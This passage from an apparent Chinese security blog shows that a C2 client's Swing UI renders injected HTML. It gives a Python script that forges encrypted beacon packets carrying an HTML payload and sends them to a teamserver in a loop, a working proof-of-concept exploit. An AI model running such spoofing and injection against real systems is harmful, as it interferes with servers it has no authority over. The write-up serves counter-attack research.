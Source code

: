     

支持情况下如果swing要解析script便签这会在ui中出现123，但测试结果如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114740.png)

很明显并没有回显数据，在这里就证明了swing不支持js，只支持纯粹的html

## 尝试xss

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114741.png)

可以看到这里我们可以通过控制JLabel的参数来控制页面的渲染

## 漏洞分析

在前面的反制红队中，我们已经讲解过了如何去产生假数据来恶新攻击者，现在我们需要做的事情就是将里面的传输换成恶意的xss代码

    
    
    #!/usr/bin/env python  
    # coding=utf-8  
    import rsa  
    import random  
    import urllib.request  
    import base64  
      
    def run(url,pubkey):  
        pack = b'\x00\x00\xBE\xEF\x00\x00\x00\x51\xC6\x21\x5B\xCD\xAE\x4A\x74\x55'  
        pack += b'\x1E\xE3\x60\x94\x90\xBA\xE2\x17\xA8\x03\xA8\x03'  
        pack += random.randint(0 , 65535) .to_bytes(4, 'big')+random.randint(0 , 65535) .to_bytes(4, 'big')  
        pack += b'\x00\x00\x45\x80\x00\x00\x04\x36\x2E\x32\x09\x31\x39\x32\x2E\x31'  
        pack += b'\x36\x38\x2E\x32\x34\x38\x2E\x31\x09\x44\x45\x53\x4B\x54\x4F\x50'  
        pack += b'\x2D\x55\x54\x42\x4E\x36\x50\x41\x09'  
        pack += "<html><img src =x>".encode("utf-8")  
        pack += b'\x09\x62'  
        pack += b'\x65\x61\x63\x6F\x6E\x2E\x65\x78\x65'  
      
        key = '-----BEGIN PUBLIC KEY-----\n'+pubkey+'\n-----END PUBLIC KEY-----'  
        pubkey = rsa.PublicKey.load_pkcs1_openssl_pem(key)  
      
        enpack = rsa.encrypt(pack, pubkey)  
        header = {  
            'Cookie': base64.b64encode(enpack).decode('utf-8')  
        }  
        request = urllib.request.Request(url, headers=header)  
        reponse = urllib.request.urlopen(request).read()  
      
    if __name__ == "__main__":  
        for i in range(100):  
            run("http://192.168.127.130/dot.gif","MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCTUlJ7J79z/MkkV8+MsYlOvREE2hhdGNzrKPFZ10lY0K5legA+um5JxESEaC0woDgSmOGrkh1giz/aQwd6tG4mihFgpi0oIbfwu6XZbE6ghYGyu2F7+A5TifRUzvU0YLXjK78EW12XhjHx4KopMF/AtOAueGwfiI2DmXwNzrBDvwIDAQAB==")  
    